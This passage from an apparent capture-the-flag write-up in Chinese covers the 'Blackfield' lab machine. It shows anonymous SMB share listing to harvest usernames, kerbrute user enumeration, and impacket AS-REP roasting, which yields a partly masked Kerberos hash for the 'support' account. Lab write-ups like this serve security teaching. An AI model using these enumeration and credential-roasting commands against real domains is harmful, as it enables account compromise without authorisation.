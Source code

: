 ![](./images/image-65.png)

将用户名全部提取出来

```
[root@kali] /home/kali/Blackfield  
❯ smbclient -N //BLACKFIELD.local/profiles$ -c 'ls' | awk '{print $1}' > output.txt
```

使用**kerbrute**进行用户枚举，找到存在的用户

```
[root@kali] /home/kali/Blackfield  
❯ kerbrute userenum -d blackfield.local output.txt --dc 10.10.xx.xx -v 

-----
[+] VALID USERNAME:       audit2020@blackfield.local
[+] VALID USERNAME:       support@blackfield.local
[+] VALID USERNAME:       svc_backup@blackfield.local
```

把这三个用户名写入**usernames.txt**，测试是否开启了**Kerberos**预认证

```
[root@kali] /home/kali/Blackfield  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" blackfield.local/ -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[+] Trying to connect to KDC at 10.10.xx.xx:88
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.xx.xx:88
$krb5asrep$23$support@BLACKFIELD.LOCAL:aab0bba70e20145fc4a1eadbae74caf0$bf0551ac8cdc12daeade9a8e363771a63a4daa498959f53421eec21f3bf6d656352291672d3e790142453473e47a55fee161b37c0ec8ee321303d7c6afd757f6b95d0ee87a21becbxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[+] Trying to connect to KDC at 10.10.xx.xx:88
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
